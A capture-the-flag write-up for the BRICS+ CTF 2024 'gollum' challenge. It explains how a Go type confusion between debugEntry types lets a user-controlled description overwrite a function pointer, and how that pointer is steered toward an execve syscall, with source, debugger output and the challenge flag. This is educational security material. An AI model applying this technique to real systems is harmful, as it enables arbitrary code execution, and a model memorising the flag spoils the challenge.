 # BRICS+ CTF 2024 | gollum

## Description

> In the depths of Orodruin I have found a new type of database.
>
> It stores users and passwords within the single structure.
>
> I hope it's safe. I use it in production anyway.

## Public archive

- [public/gollum.tar.gz](public/gollum.tar.gz)

## Deploy

```
cd deploy && docker compose up --build -d
```

## Solution

The service is written in [Go](https://go.dev/). It implements the simple text-based interface.

There are two suspicious parts in the [src/database/database.go](src/database/database.go) file:

```go
type debugEntry[T any] struct {
    Credential models.Credential
}

entry := debugEntry[int]{credential}
fmt.Sprintf("[DEBUG] Added credential entry %v\n", entry)

// ...

type debugEntry[T any] struct {
    User models.User
}

entry := debugEntry[int]{user}
fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)
```

This is a type definition inside the function. The defined `debugEntry[T]` object is used in DEBUG logging, but the logging itself is used incorrectly. Function [fmt.Sprintf](https://pkg.go.dev/fmt#Sprintf) doesn't print anything, it just returns the string as a return value (the IDE will notice this as unused result warning).

If we change it to `fmt.Printf` we could see the unexpected behaviour:

```
> ./gollum
[!] Hello! Please, use `HELP` for available commands.
> REGISTER
[?] Please, enter username: hacker
[?] Please, enter password: hacker1337
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {fd1***a1e}
[DEBUG] Added user entry {***}
[+] Registered successfully.
>
```

At the second DEBUG line we expect a call to `User.String()` which should output the username "hacker". But the service calls `Credential.String()` instead for both user and credential entries.

This is the type confusion vulnerability, the service interprets `User` object as a `Credential` object. Let's look at the `Credential` struct:

```go
type HashFunc func(Credential) string

type Credential struct {
	created time.Time

	hashFunc HashFunc
	password string
}
```

There is a function pointer `hashFunc` inside the structure at offset 0x18. This pointer is accessed in `Credential.String()` function:

```go
func (credential Credential) String() string {
	var hash string

	if credential.hashFunc != nil {
		hash = credential.hashFunc(credential)
		hash = hash[:3] + "***" + hash[len(hash)-3:]
	} else {
		hash = "***"
	}

	return hash
}
```

Let's look at the `User` struct:

```go
type User struct {
	Id          int
	Name        string
	Description string

	CredentialId int
}
```

There is a string `Description` at the offset 0x18. We can control the user's description using `UPDATE` handler. Let's trigger the arbitrary call:

```
[!] Hello! Please, use `HELP` for available commands.
> REGISTER
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {2f8***890}
[DEBUG] Added user entry {***}
[+] Registered successfully.
> UPDATE
[?] Please, enter description: CCCCCCCC
[+] Description updated.
> LOGOUT
> LOGIN
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[+] Logged in successfully.
> LOGOUT
> REGISTER
[?] Please, enter username: DDDDDDDD
[?] Please, enter password: EEEEEEEE
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {0c6***574}

Thread 1 "gollum" received signal SIGSEGV, Segmentation fault.
```

Notice the `call r9` instruction which caused the segfault:

```
     0x49b48e <gollum/models.Credential.String+78> mov    rbx, QWORD PTR [rsp+0x50]
     0x49b493 <gollum/models.Credential.String+83> mov    r9, QWORD PTR [rdi]
     0x49b496 <gollum/models.Credential.String+86> mov    rdx, rdi
 →   0x49b499 <gollum/models.Credential.String+89> call   r9
     0x49b49c <gollum/models.Credential.String+92> nop    DWORD PTR [rax+0x0]
     0x49b4a0 <gollum/models.Credential.String+96> cmp    rbx, 0x3
     0x49b4a4 <gollum/models.Credential.String+100> jb     0x49b4d4 <gollum/models.Credential.String+148>
     0x49b4a6 <gollum/models.Credential.String+102> lea    r8, [rbx+rax*1]
     0x49b4aa <gollum/models.Credential.String+106> lea    r8, [r8-0x3]
```

Let's look at the registers:

```
$rax   : 0x3
$rbx   : 0x000000c0000ae040  →  "DDDDDDDD\n"
$rcx   : 0x8
$rdx   : 0x000000c000018106  →  "CCCCCCCC\n"
$rsp   : 0x000000c0000791c8  →  0xc1b093dfcccaa2a2
$rbp   : 0x000000c000079200  →  0x000000c000079270  →  ...
$rsi   : 0x8
$rdi   : 0x000000c000018106  →  "CCCCCCCC\n"
$rip   : 0x000000000049b499  →  <gollum/models.Credential.String+89> call r9
$r8    : 0x2
$r9    : 0x4343434343434343 ("CCCCCCCC"?)
$r10   : 0x1a
$r11   : 0x000000c0000b6000  →  "[DEBUG] Added user entry {ntry {0c6***574}\n comma[...]"
$r12   : 0x0
$r13   : 0x19
$r14   : 0x000000c0000061a0  →  0x000000c000078000  →  0x0000000000000000
$r15   : 0x40
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

It calls the `0x4343434343434343` ("CCCCCCCC") address. Go passes the function arguments in the registers `rax`, `rbx`, `rcx` and `rdx`, and we immediately got the control over the function arguments:

```
rax -> 0x3 (user ID)
rbx -> 0x000000c0000ae040  →  "DDDDDDDD\n" (user name)
rcx -> 0x8 (user name length)
rdx -> 0x000000c000018106  →  "CCCCCCCC\n" (user description)
```

Let's search the available functions inside the binary:

```
> nm ./gollum | grep -i syscall
...
000000000047abe0 T syscall.RawSyscall
0000000000402680 T syscall.RawSyscall6
...
```

Since there is no PIE we already know the address of the target function. So we can simply call `execve()` syscall.

Example solver: [solution/sploit.py](solution/sploit.py)

*Note: the intended solution doesn't require a searching for the specific bug in Go compiler since the trigger could be noticed by DEBUG logging. But there is an issue for this bug: https://github.com/golang/go/issues/54456*

## Flag

```
brics+{they_sh0uld_rewr1te_Go_in_Rust_idk}
```
